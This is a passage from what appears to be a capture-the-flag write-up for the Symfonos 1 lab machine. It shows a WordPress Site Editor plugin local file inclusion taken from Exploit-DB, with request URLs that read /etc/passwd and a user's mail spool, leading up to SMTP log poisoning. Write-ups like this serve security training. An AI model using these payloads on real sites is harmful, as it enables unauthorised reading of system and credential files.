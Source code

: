 ```console
```

I found the exploit in [exploitdb](https://www.exploit-db.com/exploits/44340), downloaded it and analyzed the proof of concept.

```console
root@kali:~$ wget https://www.exploit-db.com/download/44340
root@kali:~$ cat 44340
...
 ** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
...
```

## Exploitation
### Local File Inclusion

Later I check the proof of concept requesting the system **passwd** file and we obtain its content.

`http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`
![](/assets/images/symfonos1/screenshot-2.png)

If we remember the SMTP service is running, so I verify if it's possible to inject the logs file, and how we can see the helios log file is getting, note the helios mail address, note we found the helios mail address. 

`http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios`

![](/assets/images/symfonos1/screenshot-3.png)

### SMTP Log Poisoning
